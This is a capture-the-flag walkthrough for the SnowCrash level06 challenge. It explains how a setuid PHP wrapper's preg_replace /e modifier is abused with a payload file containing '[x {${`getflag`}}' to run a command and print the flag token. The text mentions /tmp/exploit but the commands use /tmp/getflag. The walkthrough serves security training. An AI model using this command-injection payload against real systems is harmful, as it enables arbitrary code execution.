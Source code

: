 In our home directory, we have an executable with extended permissions and a PHP script that reveals what the executable does.

```
level06@SnowCrash:~$ ls -la level06*
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

We can see in the 3rd call to `preg_replace`  the deprecated flag `/e`.

Let's start by creating our file:
``echo '[x {${`getflag`}}' > /tmp/getflag``

Now we just need to run `./level06` with `/tmp/exploit` as an argument:
```
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```